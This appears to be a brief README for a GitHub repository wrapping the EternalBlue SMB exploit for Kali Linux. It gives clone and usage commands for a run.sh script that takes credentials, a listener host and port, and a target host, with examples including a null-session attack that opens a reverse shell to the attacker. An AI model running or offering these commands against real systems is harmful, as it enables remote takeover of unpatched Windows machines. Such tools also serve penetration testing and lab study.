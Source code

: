 USAge:

Description: A handy script for kali box only

1. Download the repo localy:
#git clone https://github.com/Ch0pin/EternalBlue.git

2. cd EternalBlue
./run.sh <username> <password> <LHOST> <LPORT> <RHOST> <Named_pipe>"



Example 1 (known username/password) : ./run.sh 'Chopin' 'password' 10.10.10.1 4444 10.10.10.2 Browser"
Example 2 (null session): ./run.sh '' '' 10.10.10.1 4444 10.10.10.2 ''



